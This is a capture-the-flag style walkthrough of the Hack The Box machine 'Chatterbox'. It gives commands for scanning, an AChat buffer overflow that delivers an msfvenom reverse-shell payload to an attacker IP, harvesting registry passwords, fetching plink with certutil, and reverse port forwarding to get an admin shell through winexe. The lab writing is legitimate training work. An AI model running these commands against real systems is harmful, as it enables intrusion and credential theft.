 # HTB : Chatterbox


```toc
```
---
---
---
---

## Machine Information

| Contents      | Description                                               |
| ------------- | --------------------------------------------------------- |
| Name          | HTB : Chatterbox                                          |
| Difficulty    | Easy                                                      |
| OS            | Windows                                                   |
| Shell_Exploit | Buffer Overflow (Python exploit **or** Metasploit Module) |
| Priv_Esc      | Password Mining                           |
| Miscellaneous | *Port Forwarding* and *winexe*                             |

---
---
---


 
## Scanning
### Nmap

`nmap -p- -oA nmap/full-port-scan <IP>`
`nmap -A -T5 -p 9255,9256 -oA nmap/detailed-scan`

![[Pasted image 20221102145627.png]]



---
---

## Enumeration
### Web Browser 

#### a. robots.txt

- Got no result!!!

#### b. source code

- Got no result!!!

#### c. basic website enumerations/Spidering

- Got no result!!!

#### d. searchsploit/online Databases

![[Pasted image 20221102151411.png]]
- Here we can either use the ==Metasploit module== or the ==Python exploit== to get the **system shell**
- Copy the python script and call it **exploit.py**


---
---

## Exploit

### a. Attack Vector

***Achat Buffer Overflow***
> This module exploits a Unicode SEH buffer overflow in Achat. By sending a crafted message to the default port 9256/UDP, it's possible to overwrite the SEH handler. Even when the exploit is reliable, it depends on timing since there are two threads overflowing the stack in the same time.



### b. Mode of Attack
***Python Exploit***

> **Commands**
> > `msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=<attacker_IP> LPORT=<attacker_PORT> -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`
> > - *Payload size: 512 bytes*
> > - This means that the payload that we are generating should be close to this size and should not vary much
> > - ![[Pasted image 20221102194309.png]]
> > - Copy and paste the bad characters list in the **python script**
> > - change the UDP socket address o your HOST IP and thats it the exploit is ready to fire. 
> > - Create a netcat listener and fire the python script.
> >
> > `nc -lvnp <LPORT>`
> > `python exploit.py`
> > - ![[Pasted image 20221102195002.png]]

***Metasploit Module***

> **Resource**
> - [Achat Unicode SEH Buffer Overflow - Metasploit - InfosecMatter](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/misc/achat_bof#:~:text=This%20module%20exploits%20a%20Unicode,stack%20in%20the%20same%20time.)
> - [Achat Unicode SEH Buffer Overflow (rapid7.com)](https://www.rapid7.com/db/modules/exploit/windows/misc/achat_bof/)


> **Commands**
> > `use exploit/windows/misc/achat_bof`
> > - `show targets`
> > - `set TARGET target-id`
> > - *set other options*
> > - `exploit`


---
---

## Priv_Esc

### a. Attack Vector
> **Resources**
> > [Privilege Escalation - Windows · Total OSCP Guide - Sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

> **Commands**
> > `systeminfo`
> > `whoami`
> > `net user`
> > `net user alfred`
> > `whoami /privs`
> > `netstat -ano`
> > - ![[Pasted image 20221102195302.png]]
> > - Here we can see some local ports open and listening; this could be a very good attack verctor for Port forwarding.
> > - if there is 445 **(SMB)** open then there is some sort of file share from where we can connect to the victim PC.
> > - we can use tools like *psexec* or *winexe* that allow us to connect to this PC using credentials.
> > - But at the moment we dont have any credentials with us. So lets try to get some credentials
> >  
> > `reg query HKLM /f password /t REG_SZ /s`
> > - ![[Pasted image 20221102200614.png]]
> >
> > `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`
> > - ![[Pasted image 20221102200830.png]]
> > - What is alfred is a User who is also in the Administrator but is loggin in as a regular acount and then they provide credentials for any admin actions
> > - Lets see if this is true.
> > - So lets do this, do Protforwarding and try to connect through the **SMB** internal open port using the this credentials.

### b. Mode of Attack

> **Resources**
> > [Download PuTTY: latest release (0.78) (greenend.org.uk)](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

***Port Forwarding and winexe***

- Download the *plink* (command line interface for the PuTTy backend).
- *Plink* will allow us to do ==port forwarding==.
- Download the currect version of plink and lets start the portforwarding action.

> **Commands**
> - *Attacker*
> > `python -m SimpleHTTPSerever`
> > `apt-get install ssh`
> > `nano /etc/ssh/sshd_config`
> > > Uncomment **PermitRootLogin** and change **Prohibit-password** to **yes**
> > > save
> > 
> > `service ssh restart`  **OR**  `systemctl restart sshd`
> > `service ssh start`
> > 
> - *Target*
> > `certutil -urlcache -f http://attacker_IP:port/plink.exe plink.exe`
> > `plink.exe -l root -pw <attacker_root_passwd> -R 445:127.0.0.1:445 <attacker_IP>`
> > - ![[Pasted image 20221102202432.png]]
> 
> > `netstat -ano | grep 445`
> > - ![[Pasted image 20221102202520.png]]
> 
> > `winexe -U Administrator%passowrd //127.0.0.1 "cmd.exe"`
> > - winexe is a linux based command that allows us to execute windows commands on remote windows machine.
> > - ![[Pasted image 20221102202814.png]]

